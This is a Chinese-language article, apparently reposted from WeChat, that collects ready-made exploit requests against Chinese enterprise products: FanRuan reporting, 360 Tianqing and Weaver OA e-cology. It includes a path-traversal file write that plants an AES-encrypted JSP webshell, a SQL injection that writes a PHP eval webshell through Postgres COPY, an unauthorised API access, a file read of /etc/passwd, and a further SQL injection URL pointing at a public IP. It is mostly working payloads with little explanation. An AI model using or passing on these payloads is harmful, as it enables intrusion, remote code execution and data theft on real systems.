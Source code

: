 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/eqe6vBExE2LQ54vXT3AGSg)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqshtnWHbye1V5UmBfpoywIiag41FpucRHN4Uyib4k5Ex6t393d2jNzXP2Q/640?wx_fmt=png)

**0x01 帆软 V9 任意文件覆盖漏洞 Getshell**

```
POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp HTTP/1.1
Host:  192.168.169.138:8080
User-Agent: Mozilla/5.0(Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36
Connection: close
Accept-Au: 0c42b2f264071be0507acea1876c74
Content-Type: text/xml;charset=UTF-8
Content-Length: 675 {"__CONTENT__":"<%@page import=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter(\"pass\")!=null) {String  k=(\"\"+UUID.randomUUID()).replace(\"-\",\"\").substring(16);session.putValue(\"u\",k);out.print(k);return;}Cipher c=Cipher.getInstance(\"AES\");c.init(2,new SecretKeySpec((session.getValue(\"u\")+\"\").getBytes(),\"AES\"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInsta nce().equals(pageContext);%>","__CHARSET__":"UTF-8"
```

**0x02 360 天擎逻辑越权访问**

```
GET /api/dbstat/gettablessize HTTP/1.1
```

**0x03 360 天擎前台 SQL 注入（Getshell）**

```
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[cmd]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;-- 

利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为表 O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```

**0x04 泛微 **OA e-cology** 任意文件读取**

```
GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:/etc/passwd&fileExt=txt HTTP/1.0
```

**0x05 泛微 OA e-cology8 前台 SQL 注入**

```
## 漏洞URL
http://106.15.190.147/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=***注入点***
```
